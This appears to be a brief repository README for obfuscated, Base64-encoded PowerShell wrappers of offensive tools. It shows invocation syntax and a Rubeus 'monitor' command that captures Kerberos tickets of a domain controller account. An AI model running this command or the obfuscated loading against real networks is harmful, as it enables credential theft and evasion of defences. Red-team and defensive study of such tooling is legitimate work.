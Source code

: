 # codebase-heavy
Base 64 + OBFS

USE: (Invoke-{FUNC NAME}) -Command "{CMD}"

EXAMPLE: Invoke-3nhxoxe3hww -Command "-h"

-OR-

use: [{NAME}.Program]::Main("ARGS$".Split())

EXAMPLE: [Rubeus.Program]::Main("monitor /monitorinterval:2 /targetuser:DC$ /nowrap".Split())
